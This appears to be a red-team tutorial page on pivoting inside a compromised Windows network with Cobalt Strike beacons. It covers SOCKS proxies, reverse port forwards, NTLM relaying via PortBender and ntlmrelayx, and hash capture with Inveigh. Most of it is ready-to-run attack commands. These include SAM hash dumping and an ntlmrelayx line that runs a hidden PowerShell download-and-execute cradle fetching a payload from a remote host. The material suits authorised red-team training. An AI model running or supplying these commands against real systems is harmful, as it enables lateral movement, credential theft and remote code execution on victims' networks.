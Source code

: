 ```yaml
---
title: Pivoting
category: Red Team
order: 10
---
```


Pivoting are post-explotaiton techniques that allows us to access to the network where we have just landed.

# SOCKS Proxies

A SOCKS (Secure Socket) Proxy exchanges network packets between a client and a server via a "proxy".

It's very useful when we need to leverage with others toolsets that are only available in linux such as impacket.

> **Note**: The port will binding on the Team Server.

To start a socks proxy we can use:

* SOCKS4:
```
beacon> socks [port]
```
* SOCKS5 with password:
```
beacon> socks [post] socks5 disableNoAuth [socks_user] [socks_password] enableLogging
```

Finally we can access it with `proxychains`, but first we need to configure `/etc/proxychains.conf` file.

* SOCKS4:
```
socks4 127.0.0.1 [port]
```
* SOCKS5 with password:
```
socks5 127.0.0.1 [port] [socks_user] [socks_password]
```

```
proxychains -q [command] [arguments]
```

# Windows Apps

It is also possible to tunnel Windows GUI apps using `proxifier`.

* [https://www.proxifier.com/](https://www.proxifier.com/)

With Proxifier we can specify which application we want to tunneling.

> **Note**: To use Windows authentication via a proxy, the application needs to be launched as a user from the target domain.
>
> `runas /netonly /user:CORP\user C:\Tools\program.exe`

# Port Forwarding

I will not explain what is a port forwarding since is detailed on `Post-Exploitation` section on this gitbook, but we will discuss how to execute it from Cobalt Strike.

```
beacon> rportfwd 8080 10.10.10.10 80
[+] started reverse port forward on 8080 to 10.10.10.10:80
```

To stop the forwarding:

```
beacon> rportfw stop 8080
```

> **Notes**:
> * Beacon's reverse port forward always tunnels the traffic to the Team Server and the Team Server sends the traffic to its intended destintation.
> * The traffic is tunnelled inside the Beacon's C2 traffic, not over separate sockets.
> * You don't need to be a local admin to create reverse port forwards on high ports.

`rportfwd_local` will tunnel the traffic to the machine running Cobalt Strike client instead of the Team Server.

```
beacon> rportfwd_local 443 127.0.0.1 443
[+] started reverse port forward on 443 to mvc1009 -> 127.0.0.1:443
```

> **Alert**: Be careful, you must create an allow rule before running a reverse port forward.
>
> `beacon> powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080`
> `beacon> powershell Remove-NetFirewallRule -DisplayName "Test Rule"`

# NTLM Relaying

During an on-premise assessments, NTLM relaying with tools like `responder` and `ntlmrelayx` is quite trivial. However in red team assessment, is not quite trivial because port 445 is always bound and in use by Windows machines.

It's still possible with Cobalt Strike, but requires the use of multiple capabilities.

1. Use a driver `WinDivert` to redirect traffic destinated for port 445 to another port (4445). It requires local admin access in order for loading the driver. Upload the driver to `C:\Windows\System32\drivers` since this is where most windows drivers go.

```
beacon> cd C:\Windows\System32\drivers
beacon> upload C:\Tools\PortBender\WinDivert64.sys
```
 * PortBender: [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)

Load `PortBender.cna` aggressor script and redirect the traffic.

```
beacon> PortBender redirect 445 4445
```

2. Create a reverse port forwarding that will then relay the traffic from port 4445 to port 445 on the Team Server where `ntlmrelayx` will be waiting.

```
beacon> rportfwd 4445 127.0.0.1 445
```

3. A SOCKS proxy is required to allow `ntlmrelayx` to send traffic back into the network.

```
beacon> socks 5566
```

4. Finally on the Team Server execute the `ntlmrelayx` tool, by default will execute `secretsdump` to dump local SAM hashes on the target machine.

```
proxychains -q python3 /usr/local/bin/ntlmrelayx.py -t smb://<target-ip> -smb2support --no-http-server --no-wcf-server
```

Instead of dumping SAM we can execute payloads such as beacons.

```
proxychains -q python3 /usr/local/bin/ntlmrelayx.py -t smb://<target-ip> -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "IEX(New-Object Net-WebClient).DownloadString(\"http://10.10.10.10/a\")"'
```

To stop `PortBender` just kill the process.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 0    1240  PortBender

beacon> jobkill 0
beacon> kill 1240
```

# NTLM Capturing

We can use `Inveigh` to listen to incoming requests, similar to `Responder` but in .NET.

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

`Inveigh` should be run as a local admin.

```
beacon> execute-assembly C:\Tools\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```

It it also possible use the WinDivert, rportfwd and smbserver to capture the NetTLMHash.
